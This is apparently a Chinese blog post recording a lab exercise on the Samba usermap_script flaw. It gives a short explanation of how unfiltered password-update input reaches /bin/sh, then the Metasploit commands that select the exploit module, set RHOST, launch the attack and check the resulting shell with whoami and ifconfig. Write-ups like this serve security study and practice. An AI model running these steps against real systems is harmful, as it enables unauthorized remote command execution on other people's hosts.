 ```yaml
---
title: samba提权
date: 2021-12-20 17:46:48
tags: 
    - samba
    - 提权
---
```


## samba提权

### 利用samba漏洞，获得目标主机root权限

#### 原理:Samba中负责在SAM数据库更新用户口令的代码未经过滤便将用户输入传输给了/bin/sh。如果在调用smb.conf中定义的外部脚本时，通过对/bin/sh的MS-RPC调用提交了恶意输入的话，就可能允许攻击者以nobody用户的权限执行任意命令。

#### 过程：

确定目标存在`445`和`139`端口开放，使用msf，输入命令`search samba`

![image-20211220184011444](https://gitee.com/oxchang/img-host/raw/master/samba提权/image-20211220184011444.png)

使用命令`use exploit/multi/samba/usermap_script`，启用漏洞利用模块，终端输入`info`，查看相关信息

![image-20211220184341512](https://gitee.com/oxchang/img-host/raw/master/samba提权/image-20211220184341512.png)

输入`set RHOST ip`,设置目标ip地址，输入`exploit`，开始攻击，攻击成功后，建立会话

![image-20211220190130652](https://gitee.com/oxchang/img-host/raw/master/samba提权/image-20211220190130652.png)

输入`whoami`查看权限，输入`ifconfig`，查看系统网络信息

![image-20211220190258566](https://gitee.com/oxchang/img-host/raw/master/samba提权/image-20211220190258566.png)

实验完成

